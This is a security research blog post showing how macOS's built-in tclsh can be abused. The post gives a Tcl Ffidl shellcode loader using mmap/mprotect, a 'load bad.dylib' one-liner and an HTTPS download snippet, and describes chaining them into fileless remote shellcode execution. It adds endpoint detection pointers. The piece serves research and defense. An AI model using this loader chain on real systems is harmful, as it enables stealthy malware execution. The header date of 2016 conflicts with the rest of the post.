

---
title:	"Abusing tclsh to Load (Remote) Shellcode on macOS"
date:	2016-01-20
image:  img/2025-10-31-macos-abuse-tcl-lol/cover.webp
desc:   "Yet another LOOBins"
---

## Background

I have collected macOS entitlement databases from OS X Lion (10.7) to macOS Tahoe and now host them on https://codecolor.ist/entdb/.

Here are the results for `com.apple.security.cs.allow-unsigned-executable-memory` on macOS Tahoe. With this entitlement, it is possible
to use classic `mprotect` to map shellcode.

```
/System/Library/Frameworks
    /AudioToolbox.framework/XPCServices
        /AUHostingServiceXPC.xpc/Contents/MacOS/AUHostingServiceXPC
        /AUHostingServiceXPC_arrow.xpc/Contents/MacOS/AUHostingServiceXPC_arrow
        /com.apple.audio.InfoHelper.xpc/Contents/MacOS/com.apple.audio.InfoHelper
    /Tcl.framework/Versions/8.5/tclsh8.5
    /Tk.framework/Versions/8.5/Resources/Wish.app/Contents/MacOS/Wish
/usr/bin/auvaltool
```

Python 2 was marked deperecated and finally removed from macOS preinstalled binaries. However in terms of abuse, this `tclsh` is way more interesting
than it. In addiction to unsigned executable memory, it is also granted `com.apple.security.cs.disable-library-validation` that can load dylib
without codesign enforcement.

[LOOBins](https://github.com/infosecB/LOOBins) already showed an example to load payload as plugins.

`echo "load bad.dylib" | tclsh`

## Shellcode Loader

On macOS, Tcl comes with Ffidl preinstalled, which is an ffi library. In other words, we can execute arbitrary native calls.

```
~ ls /System/Library/Tcl/8.5/ | grep Ffidl
Ffidl0.6.1
```

Here is an example of putting 1024 `0x41` bytes as shellcode and execute them. Of course the program will crash for unknown instructions.

```
package require Ffidl

::ffidl::callout memcpy {{unsigned long long} {pointer-byte} {unsigned long}} {long long} [ffidl::symbol /usr/lib/libSystem.B.dylib _platform_memmove]
::ffidl::callout mmap {{int} {unsigned long long} {int} {int} {int} {int}} {unsigned long long} [ffidl::symbol /usr/lib/libSystem.B.dylib mmap]
::ffidl::callout mprotect {{unsigned long long} {unsigned long} {int}} {int} [ffidl::symbol /usr/lib/libSystem.B.dylib mprotect]

binary scan [string repeat "\x41" 1024] a* shellcode
set len [string length $shellcode]

# PROT_READ | PROT_WRITE == 3
# MAP_ANONYMOUS | MAP_PRIVATE == 4098
set buf [mmap 0 16384 3 4098 -1 0]

set ignore [memcpy $buf $shellcode $len]

# PROT_READ | PROT_EXEC == 5
set ignore [mprotect $buf 16384 5]

::ffidl::callout lol {int} {int} $buf

# jump to shellcode
lol 0
```



## Remote Payload

Tcl on macOS also ships with [http](https://wiki.tcl-lang.org/page/http) and [tls](https://wiki.tcl-lang.org/page/tls) packages. Very useful to
download resource from remote URL.

```tcl
package require http
package require tls

::http::register https 443 ::tls::socket

set url "https://www.example.com/"
set req [::http::geturl $url]

upvar #0 $req state
puts $state(body)
```

Putting all together we can use this genuine system binary to download and execute shellcode without dropping anything on disk, and
even chain one more reflective loader on top of it.

## Detection

There are already [es_event_mprotect_t](https://developer.apple.com/documentation/endpointsecurity/es_event_mprotect_t)
and [es_event_mmap_t](https://developer.apple.com/documentation/endpointsecurity/es_event_mmap_t) events in
[Endpoint Security](https://developer.apple.com/documentation/endpointsecurity) API.

## PAC?

Unfortunately we cannot use it to sign code pointers (for LPE exploitation). There are few hardcoded bundle names in
XNU source code that will not get PAC key enabled.

[xnu/bsd/kern/mach_loader.c](https://github.com/apple-oss-distributions/xnu/blob/f6217f891ac0bb64f3d375211650a4c1ff8ca1ea/bsd/kern/mach_loader.c#L618)
```c
/* From /System/Library/Security/HardeningExceptions.plist */
const char *const hardening_exceptions[] = {
	"com.apple.perl5", /* Scripting engines may load third party code and jit*/
	"com.apple.perl", /* Scripting engines may load third party code and jit*/
	"org.python.python", /* Scripting engines may load third party code and jit*/
	"com.apple.expect", /* Scripting engines may load third party code and jit*/
	"com.tcltk.wish", /* Scripting engines may load third party code and jit*/
	"com.tcltk.tclsh", /* Scripting engines may load third party code and jit*/
	"com.apple.ruby", /* Scripting engines may load third party code and jit*/
	"com.apple.bash", /* Required for the 'enable' command */
	"com.apple.zsh", /* Required for the 'zmodload' command */
	"com.apple.ksh", /* Required for 'builtin' command */
	"com.apple.sh", /* rdar://138353488: sh re-execs into zsh or bash, which are exempted */
};
for (size_t i = 0; i < ARRAY_COUNT(hardening_exceptions); i++) {
	if (strncmp(hardening_exceptions[i], identity, strlen(hardening_exceptions[i])) == 0) {
		proc_t p = vfs_context_proc(imgp->ip_vfs_context);
		set_proc_name(imgp, p);
		os_log(OS_LOG_DEFAULT, "%s: running binary \"%s\" in keys-off mode due to identity: %s", __func__, p->p_name, identity);
		return true;
	}
}
```

Should've wrapped this to another OBTS talk...

## References

1. [tclsh](https://wiki.tcl-lang.org/page/tclsh)
2. [LOOBins](https://github.com/infosecB/LOOBins)
3. [Dylib Loads that Tickle your Fancy](https://posts.specterops.io/dylib-loads-that-tickle-your-fancy-d25196addd8c)
